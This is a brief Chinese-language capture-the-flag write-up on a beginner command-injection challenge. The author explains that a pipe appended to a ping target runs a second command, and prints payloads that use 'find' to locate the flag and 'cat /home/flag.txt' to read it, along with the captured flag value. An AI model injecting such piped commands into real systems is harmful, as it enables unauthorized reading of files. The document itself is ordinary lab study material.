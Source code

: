 简单的命令行注入（一直为了查看目录下的index.php命令浪费了好长时间）

有的地方可以用cat这些指令有的不可以用（感觉不是很严谨、但是自己也是挺菜的）

可以通过|来传递命令 一直在尝试用grep匹配字符（失误的彻彻底底）

直接用以下shell命令即可找到flag：（感觉这种非常适合于签到题、简单题）

```shell
192.0.0.2 | find / -name "*flag*"
```

就会发现在home目录下有一个flag.txt 的文件！下次进入到一台全新的机器记好用find或者grep 匹配特定字符！

然后用cat指令就可以完成了（感觉这题目的一些指令在特定环境下才可以使用）很疑惑、也很难绷

```shell
ping -c 3 192.0.0.2 |  cat /home/flag.txt
cyberpeace{c6dfd3694661903f0a4b366f4d714625}
```

